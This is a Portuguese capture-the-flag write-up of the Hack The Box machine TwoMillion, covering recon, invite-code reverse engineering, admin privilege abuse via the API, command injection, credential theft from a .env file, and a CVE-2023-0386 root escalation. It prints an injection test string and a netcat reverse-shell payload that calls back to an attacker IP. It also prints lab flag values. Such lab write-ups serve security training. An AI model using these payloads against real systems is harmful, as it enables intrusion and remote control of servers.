# Hack The Box — TwoMillion


---

# Informações da Máquina

| Nome  | Dificuldade | Plataforma    | OS    |
| ----- | ---------- | ------------ | ----- |
| TwoMillion | Easy | Hack The Box | Linux |

---

# Superfície de ataque

```
1. Web application (porta 80)
2. API endpoints expostos (/api/v1/)
3. Lógica de invite code (JS)
4. Broken Access Control
5. Command Injection
6. Credenciais expostas em .env
7. Privilege Escalation via CVE-2023-0386
```

---

# Reconhecimento

A enumeração inicial foi realizada com Nmap.

```
nmap -sC -sV -A -T4 10.129.27.255
```



### Descobertas

| Porta | Serviço | Observações |
| ------ | --------- | ------- |
| 22 | SSH | OpenSSH 8.9p1 Ubuntu |
| 80 | HTTP | nginx, aplicação web em 2million.htb |

---

# Enumeração Web

A página principal indicava um fluxo de cadastro por convite. Durante a análise da rota `/invite`, foi identificado um arquivo JavaScript relacionado à lógica dos convites.

- Arquivo JavaScript: `inviteapi.min.js`
- Função relevante: `makeInviteCode()`

O conteúdo estava ofuscado, então foi necessário deobfuscá-lo para entender a lógica da aplicação.



Após a análise, foi possível descobrir o endpoint:



A resposta retornava dados codificados:



Após decodificação Base64:




```
/api/v1/invite/how/to/generate
```

A resposta retornava uma mensagem codificada. Após decodificação com ROT13, ela indicava um novo endpoint a ser consultado.



O próximo endpoint retornava um valor codificado em **Base64**, que então foi usado no processo de criação de conta.

---

# Exploração

Com a lógica do invite code compreendida, foi possível gerar um código válido e criar uma conta na plataforma. Após autenticação, a aplicação liberou novas funcionalidades e o acesso às rotas da API.

A análise do comportamento da aplicação mostrou também a funcionalidade de geração do *Connection Pack*, que utilizava o endpoint:

```
/api/v1/user/vpn/generate
```

---

# Enumeração da API

Após login, a enumeração manual das rotas revelou endpoints administrativos sob `/api/v1/admin`.

Um endpoint interessante revelou toda a estrutura da API:



Durante testes manuais, foram identificados parâmetros obrigatórios:





Também foi necessário ajustar corretamente o Content-Type:




Foi identificado que existiam **3 endpoints** relevantes sob esse caminho, incluindo:

```
/api/v1/admin/settings/update
```

Esse endpoint permitia alterar propriedades da conta.

Inicialmente, verificamos o status de admin:



Depois, promovemos o usuário:



Isso caracteriza uma falha de **Broken Access Control**.


---

# Command Injection

Com privilégios administrativos, foi possível acessar o endpoint:

```
/api/v1/admin/vpn/generate
```

Esse endpoint apresentava uma **Command Injection**, permitindo injetar comandos no parâmetro enviado pela aplicação.

O teste inicial foi feito com:

```
ninjaa;id;
```



A resposta confirmou execução remota de comandos no servidor:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Para obter uma shell reversa, foi enviado o seguinte payload:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.233 1337 >/tmp/f
```



---

# Acesso Inicial

Com um listener aberto na máquina atacante, a exploração resultou em uma shell como `www-data`.

```
nc -nlvp 1337
```



---

# Credenciais

Durante a enumeração local, foi encontrado um arquivo `.env`, muito comum em aplicações PHP para armazenar variáveis de ambiente.

```
cat .env
```



As credenciais expostas eram:

```
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Com elas, foi possível autenticar via SSH no host como o usuário `admin`.

```
ssh admin@2million.htb
```



---

# Flag de Usuário

Após o acesso como `admin`, foi possível ler a flag de usuário:

```
cat user.txt
```



```
5a28a32104c5f20858e360d9c80b0608
```

---

# Enumeração para Escalação de Privilégio

Durante a enumeração do sistema, foi encontrado um email no diretório de emails do usuário `admin`.

```
cat /var/mail/admin
```



O remetente era:

```
ch4p@2million.htb
```

O conteúdo mencionava a necessidade de aplicar correções no sistema operacional devido a vulnerabilidades recentes do kernel Linux, incluindo uma falha em OverlayFS / FUSE.

Isso direcionou a investigação para a vulnerabilidade:

```
CVE-2023-0386
```

---

# Escalação de Privilégio

A exploração da **CVE-2023-0386** foi realizada transferindo um exploit para a máquina-alvo.

Na máquina atacante:

```
python3 -m http.server 8000
```



Na máquina alvo, o exploit foi baixado e executado. A exploração resultou em shell root.



Após sucesso, a sessão passou a ter privilégios de superusuário.

---

# Flag Root

Com acesso root, bastou ler a flag final:

```
cat /root/root.txt
```



```
3d2e9a0f27d1212fd9f2aee37627d7c4
```

---

# Vulnerabilidades Identificadas

### 1. Exposição de lógica sensível em JavaScript
A lógica para geração de convites estava acessível ao cliente, ainda que ofuscada. Isso permitiu reconstruir o fluxo de cadastro.

### 2. Broken Access Control
O endpoint `/api/v1/admin/settings/update` permitia promover uma conta comum para administrador sem validação adequada.

### 3. Command Injection
O endpoint `/api/v1/admin/vpn/generate` aceitava entrada não sanitizada, resultando em execução arbitrária de comandos no servidor.

### 4. Exposição de credenciais
O arquivo `.env` continha credenciais sensíveis reutilizáveis para acesso SSH.

### 5. Kernel Vulnerability — CVE-2023-0386
Uma vulnerabilidade no OverlayFS/FUSE permitiu escalar privilégios de `admin` para `root`.

---

# Ferramentas Utilizadas

- Nmap
- Burp Suite
- CyberChef
- Netcat
- SSH
- Python HTTP Server

---

# Principais Aprendizados

- JavaScript ofuscado ainda pode expor fluxos críticos da aplicação.
- APIs mal protegidas frequentemente escondem falhas graves de autorização.
- Command Injection continua sendo uma vulnerabilidade extremamente impactante.
- Arquivos `.env` expostos representam alto risco operacional.
- Emails e artefatos internos podem fornecer pistas valiosas para privilege escalation.

---

# Autor

https://github.com/ninjaa-exe


---

